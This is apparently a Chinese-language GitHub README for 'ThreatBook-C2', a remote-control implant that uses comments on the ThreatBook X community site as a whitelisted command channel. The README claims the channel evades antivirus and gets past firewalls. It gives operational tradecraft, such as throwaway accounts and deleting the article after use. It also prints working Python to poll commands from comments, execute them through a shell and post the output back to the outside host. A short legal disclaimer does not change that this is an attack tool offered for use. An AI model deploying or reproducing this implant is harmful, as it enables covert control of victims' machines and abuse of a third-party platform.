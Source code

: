 <h1 align="center">ThreatBook-C2</h1>
<h2 align="center">利用微步社区做天然白名单且免杀的远控C2（支持手机电脑）</h2>

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，<u>任何人不得将其用于非法用途以及盈利等目的，否则后果自负</u>** 
<p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
<a href="https://github.com/yuziiiiiiiiii/ThreatBook-C2"><img  src="https://goreportcard.com/badge/github.com/projectdiscovery/httpx"></a>
</p>
<p align="center"><a href="#前言">前言</a> · <a href="#演示">演示</a> · <a href="#流量分析">流量分析</a> · <a href="#实操运用">实操运用</a>· <a href="#关键实现">关键实现</a></p>

---

## 前言

微步的X情报社区具有信息分享、传播及获取的功能，用户发表的信息是公开的信息，其他第三方均可以通过X情报社区获取用户发表的信息。在众多的攻防演练中常用于溯源，分析恶意IP，恶意附件等，殊不知也可以利用其天然白名单且免杀的优势做C2远控，防不胜防！如今许多企业网络设置了上网行为管理，网关等各种千奇百怪的安全设备，网络只对特定IP或域名设置白名单开放，然后限制一切陌生流量，这样则会导致即使对C2做了**云函数，CDN，域前置，IPv6**等各种技术实现了隐匿但是流动不起来，无法上线，此时则需要一个天然白名单做C2，不仅隐匿性杠杠滴，还无视各种安全设备，从而直接远控！

附上微步情报社区：https://x.threatbook.com/

## 演示

**桌面端**

![1](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/d51f8c28-843d-421a-b6f2-25f71d1cf68a)

**移动端**

![13345061142777462](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/34787d5c-bd1a-452e-941f-677bd76c5982)

## 流量分析

![1](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/74c5379e-eba4-4c84-a581-a1b5799a1f33)

根据流量包，可以看出和C2的通讯IP为117.50.19.28是微步社区的IP，企业内为默认白名单IP，因此IP上不仅做到了隐匿也做到了与企业间可通信。流量走https加密流量，命令间存在心跳时间

![2](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/3d12454d-b247-4c4f-a18b-9e5b4e8c0ff2)

## 实操运用

- **一个微步社区正常的账号（可以创建干净的小号，进一步增强隐匿性）**

- **发布一篇微步社区文章（建议提前几天准备好，临时发布的文章曝光度高，容易被其他人看见），建议提前将命令输入评论区（命令格式是"命令+真正的命令"），避免踩空**

  ![7](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/e6fd4790-cc1b-471a-9667-27ec351eadd5)

- **记录下关键信息**

微步社区的文章ID

![3](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/4cd1815c-3505-49d6-a725-1e55b3aa1e87)

微步社区的验证字段

csrfToken

rememberme

xx-csrf

![4](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/5a2de377-ec44-434a-9107-730c02a59880)

将关键信息填入config.txt中（实战中可将关键信息直接填入相应的脚本对应位置，通过pyinstaller打包脚本后直接执行无需config.txt）

![5](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/f8858b6b-0b38-4e45-a3df-dcf862103fba)

同目录下运行C2.exe（目测无视一切杀软执行命令且回显），这时候回到微步社区文章页面进行刷新，会发现命令已经回显

![6](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/5b7a49a1-23c7-4230-9dce-6568a1dcdb26)

若需要再次执行命令只需要在评论区按格式输入命令，等待心跳时间后，即可以获取下一个命令回显（默认设置的是5s心跳时间）

结束远控后，及时保留关键信息并且将文章删除即可

![8](https://github.com/yuziiiiiiiiii/ThreatBook-C2/assets/138445912/90e5cb04-3b9c-4940-8bd7-ab6fd6b3a1d0)

## 关键实现
​	
​	此基于微步社区的远控，主要实现上利用了三个核心代码，分别为获取命令、回显命令、执行命令，以下我们来逐一解析

- 获取命令

```
def get_comments(short_message_id):
    base_url = "https://x.threatbook.com/v5/node/user/article/queryComments?shortThreatId="+short_message_id
    try:
    	#模拟用户发包
        response = requests.get(base_url)
        # 直接使用 response.json() 获取对象
        json_object = response.json()
        # 定义一个评论列表
        comments_list = json_object["data"]["list"]
        # 提取第一个 comments 对应的值
        first_comment = comments_list[0]["comments"]
        # 返回第一个 comments 对应的值
        return first_comment
        # 错误性判断
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")
```

- 回显命令

```
def send_comment(comment, short_message_id, csrf_token, rememberme, xx_csrf):
    url = "https://x.threatbook.com/v5/node/user/article/saveComment"
	#请求头
    headers = {
        "Host": "x.threatbook.com",
        "Cookie": f"csrfToken={csrf_token}; rememberme={rememberme}; xx-csrf={xx_csrf}",
        "Content-Type": "application/json",
        "X-Csrf-Token": csrf_token,
        "Xx-Csrf": xx_csrf,
        "Sec-Ch-Ua-Mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36"
    }
	#请求体
    data = {
        "comment": comment,
        "isAnonymous": "False",
        "targetId": "0",
        "shortMeaasgeId": short_message_id
    }
	#回显命令
    try:
        response = requests.post(url, json=data, headers=headers)
        return response.json()
    except requests.exceptions.RequestException as e:
        print(f"Error: {e}")
```

- 执行命令

```
  def command(cmd):
	#Popen()函数使用shell执行命令，stdout和stderr是子进程的标准输出和标准错误输出
    process = Popen(cmd, shell=True, stdout=PIPE, stderr=PIPE)
    #启动并等待子进程完成，通过stdout和stderr读取子进程的输出
    stdout, stderr = process.communicate()
    #返回标准输出并解码为gbk编码的字符串
    return stdout.decode('gbk')
```
